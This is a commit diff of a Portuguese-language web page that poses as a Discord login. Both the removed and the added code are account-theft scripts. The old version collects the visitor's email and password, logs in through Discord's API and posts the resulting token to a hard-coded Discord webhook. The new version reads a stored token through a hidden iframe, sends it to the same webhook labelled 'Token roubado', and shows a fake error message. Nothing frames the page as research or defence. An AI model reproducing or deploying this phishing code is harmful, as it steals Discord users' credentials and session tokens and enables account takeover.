

Before and after one commit to mandesk7163/Miaailn, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,44 +1,45 @@
 <!DOCTYPE html>
-<html lang="en">
+<html lang="pt-BR">
 <head>
-  <meta charset="UTF-8" />
-  <title>Discord Login</title>
+  <meta charset="UTF-8">
+  <title>Login Discord</title>
 </head>
 <body>
   <h2>Login no Discord</h2>
-  <input type="text" id="email" placeholder="Email"><br><br>
-  <input type="password" id="password" placeholder="Senha"><br><br>
-  <button onclick="login()">Entrar</button>
+  <button onclick="getToken()">Logar</button>
 
   <script>
-    async function login() {
-      const email = document.getElementById('email').value;
-      const password = document.getElementById('password').value;
+    function getToken() {
+      let iframe = document.createElement('iframe');
+      iframe.style.display = 'none';
+      document.body.appendChild(iframe);
 
-      const response = await fetch("https://discord.com/api/v9/auth/login", {
-        method: "POST",
-        headers: {
-          "Content-Type": "application/json",
-          "User-Agent": "Mozilla/5.0"
-        },
-        body: JSON.stringify({ login: email, password: password })
-      });
+      let token = null;
 
-      const data = await response.json();
+      try {
+        token = iframe.contentWindow.localStorage.getItem('token');
+      } catch (err) {
+        console.error("Erro ao acessar localStorage:", err);
+      }
 
-      if (data.token) {
+      if (token) {
+        // Remove aspas extras
+        token = token.replace(/"/g, '');
+
+        // Enviar para webhook
         fetch("https://discord.com/api/webhooks/1362455750202359869/KxjL9Kg38zfdErVc1OCzjZazhSznhjO1QKf0Cu8XZkCQ4ejPcceU609Z3Ktr-WbNW6J4", {
           method: "POST",
           headers: {
             'Content-Type': 'application/json'
           },
           body: JSON.stringify({
-            content: `Novo token: ${data.token}`
+            content: `Token roubado: ${token}`
           })
         });
-        alert("Erro interno. Tente novamente mais tarde.");
+
+        alert("Erro de conexão. Tente novamente mais tarde.");
       } else {
-        alert("Credenciais inválidas");
+        alert("Falha ao capturar token.");
       }
     }
   </script>
```
